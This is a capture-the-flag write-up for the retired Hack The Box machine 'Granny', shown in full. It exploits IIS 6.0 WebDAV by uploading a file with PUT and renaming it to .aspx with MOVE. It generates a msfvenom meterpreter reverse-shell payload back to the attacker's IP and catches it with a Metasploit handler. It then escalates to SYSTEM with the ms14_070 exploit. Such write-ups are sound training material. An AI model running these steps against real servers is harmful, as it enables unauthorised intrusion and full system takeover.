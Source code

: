 # Granny

This is the write-up for the box Granny that got retired at the 21st October 2017.
My IP address was 10.10.14.21 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.15    granny.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/granny.nmap 10.10.10.15
```

```markdown
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
| http-methods:
|_  Potentially risky methods: TRACE DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT
|_http-server-header: Microsoft-IIS/6.0
|_http-title: Under Construction
| http-webdav-scan:
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|   Server Type: Microsoft-IIS/6.0
|   WebDAV type: Unknown
|   Server Date: Sun, 19 Jan 2020 16:45:28 GMT
|_  Allowed Methods: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, MKCOL, LOCK, UNLOCK
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

## Checking HTTP (Port 80)

The web page displays an _"Under Construction"_ error and nothing interesting in the HTML source code.

As the **WebDAV** scan of Nmap shows, it seems to be possible to use different HTTP methods.
Lets scan what we can do with with the methods:
```markdown
davtest -url http://10.10.10.15

# Output
Sending test files
PUT     aspx    FAIL
PUT     pl      SUCCEED:        http://10.10.10.15/DavTestDir_xnG2iD5Fuf4lok/davtest_xnG2iD5Fuf4lok.pl
PUT     cgi     FAIL
PUT     html    SUCCEED:        http://10.10.10.15/DavTestDir_xnG2iD5Fuf4lok/davtest_xnG2iD5Fuf4lok.html
PUT     php     SUCCEED:        http://10.10.10.15/DavTestDir_xnG2iD5Fuf4lok/davtest_xnG2iD5Fuf4lok.php
PUT     jhtml   SUCCEED:        http://10.10.10.15/DavTestDir_xnG2iD5Fuf4lok/davtest_xnG2iD5Fuf4lok.jhtml
PUT     shtml   FAIL
PUT     asp     FAIL
PUT     cfm     SUCCEED:        http://10.10.10.15/DavTestDir_xnG2iD5Fuf4lok/davtest_xnG2iD5Fuf4lok.cfm
PUT     txt     SUCCEED:        http://10.10.10.15/DavTestDir_xnG2iD5Fuf4lok/davtest_xnG2iD5Fuf4lok.txt
PUT     jsp     SUCCEED:        http://10.10.10.15/DavTestDir_xnG2iD5Fuf4lok/davtest_xnG2iD5Fuf4lok.jsp
```

Setting up a proxy with **Burpsuite** and looking at the what this scan does:
```markdown
PUT /DavTestDir_xnG2iD5Fuf4lok/davtest_xnG2iD5Fuf4lok.html HTTP/1.1
TE: deflate,gzip;q=0.3
Connection: close
Host: localhost:80
User-Agent: DAV.pm/v0.49
Content-Length: 26

HTML put via davtest<br />
```

So it is possible to upload some text files on the server with the _PUT_ method.
As those will not execute any code, we look at the other methods and see, that we can use the _MOVE_ or _COPY_ method to change the file name to something that ends with _.aspx_ and get command execution.
The response of the box _X-Powered-By: ASP.NET_ suggests that executing an ASPX file should work.

Lets create an ASPX meterpreter shell with **Msfvenom**:
```markdown
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.21 LPORT=9001 -f aspx
```

The will create the code that we need to put into an HTML file:
```markdown
PUT /shell.html HTTP/1.1
TE: deflate,gzip;q=0.3
Connection: close
Host: localhost:80
User-Agent: DAV.pm/v0.49
Content-Length: 2860

(Msfvenom Payload)
```

With the _MOVE_ or _COPY_ method, we can change the file name of the HTML file to _shell.aspx_:
```markdown
MOVE /shell.html HTTP/1.1
Destination: /shell.aspx
TE: deflate,gzip;q=0.3
Connection: close
Host: localhost:80
User-Agent: DAV.pm/v0.49
Content-Length: 2860
```

Creating the listener in **Metasploit**:
```markdown
msfconsole

use exploit/multi/handler
set LHOST 10.10.14.21
set LPORT 9001
set payload windows/meterpreter/reverse_tcp
exploit -j
```

Now we can browse to _/shell.aspx_ and a **Meterpreter** session will start.

## Privilege Escalation

With the `getuid` command in Meterpreter we see that we are the user _NT AUTHORITY\NETWORK SERVICE_ and need to escalate the privileges.
Lets use the exploit suggester in Metasploit:
```markdown
use post/multi/recon/local_exploit_suggester
set session 1
run
```

It suggests several exploits from which I will use _exploit/windows/local/ms14_070_tcpip_ioctl_:
```markdown
use exploit/windows/local/ms14_070_tcpip_ioctl
set session 1
exploit
```

After running this exploit, a new Meterpreter session as _NT AUTHORITY\SYSTEM_ starts and the box is done!
